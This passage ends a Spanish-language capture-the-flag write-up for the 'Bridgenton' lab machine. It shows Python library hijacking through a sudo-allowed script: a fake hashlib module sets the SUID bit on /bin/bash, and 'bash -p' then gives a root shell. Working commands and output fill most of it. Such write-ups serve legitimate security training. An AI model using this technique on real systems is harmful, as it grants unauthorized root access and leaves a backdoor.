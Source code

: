 Llamaremos al script igual que al que vamos a suplantar y tendrá lo siguiente:
```python
import os

os.system("chmod u+s /bin/bash")
```

Bien, antes de ejecutarlo, veamos los permisos de la **Bash**:
```bash
james@Bridgenton:/opt$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Aún no podemos usarla.

Ahora ejecutemos el script y debería darnos un error al ejecutarse, ya que dicho script no tiene las mismas instrucciones que el verdadero:
```bash
james@Bridgenton:/opt$ sudo /usr/bin/python3 /opt/example.py
Traceback (most recent call last):
  File "/opt/example.py", line 9, in <module>
    print(hashlib.md5(cadena.encode()).hexdigest())
          ^^^^^^^^^^^
AttributeError: module 'hashlib' has no attribute 'md5'
```

Excelente, revisemos si cambiaron los permisos de la **Bash**:
```bash
james@Bridgenton:/opt$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Sí cambio.

Ya solo ejecutamos la **Bash** con privilegios y seremos **Root**:
```bash
james@Bridgenton:/opt$ bash -p
bash-5.2# whoami
root
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
...
```
Con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://gtfobins.github.io/gtfobins/base64/
* https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html?highlight=library%20Hijack#python-library-hijacking
* https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8
